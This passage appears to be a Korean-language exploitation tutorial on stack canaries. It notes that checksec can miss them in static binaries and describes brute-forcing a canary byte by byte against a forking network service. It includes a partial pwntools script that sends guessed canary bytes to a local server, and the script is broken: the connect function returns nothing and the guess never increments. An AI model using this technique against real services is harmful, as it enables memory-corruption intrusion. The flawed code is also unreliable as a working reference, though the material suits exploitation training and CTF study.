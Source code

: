 ![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
**`checksec`**가 바이너리가 카나리로 보호되고 있다는 것을 찾지 못할 수 있습니다. 이는 정적으로 컴파일되었고 함수를 식별할 수 없기 때문입니다.\
그러나 함수 호출의 시작 부분에 값이 스택에 저장되고 이 값이 종료 전에 확인되는 것을 발견하면 수동으로 이를 알 수 있습니다.
{% endhint %}

## 브루트 포스 카나리

간단한 카나리를 우회하는 가장 좋은 방법은 바이너리가 **새로운 연결을 설정할 때마다 자식 프로세스를 포크하는 프로그램**인 경우입니다(네트워크 서비스). 왜냐하면 연결할 때마다 **같은 카나리가 사용되기 때문입니다.**

따라서 카나리를 우회하는 가장 좋은 방법은 **문자별로 브루트 포스하는 것**이며, 추측한 카나리 바이트가 올바른지 확인하기 위해 프로그램이 충돌했는지 아니면 정상 흐름을 계속하는지를 확인할 수 있습니다. 이 예제에서는 함수가 **8바이트 카나리(x64)를 브루트 포스**하고 올바르게 추측한 바이트와 잘못된 바이트를 **응답**이 서버에 의해 반환되는지를 **확인**하여 구분합니다(다른 상황에서는 **try/except**를 사용할 수 있습니다):

### 예제 1

이 예제는 64비트로 구현되었지만 32비트로도 쉽게 구현할 수 있습니다.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
```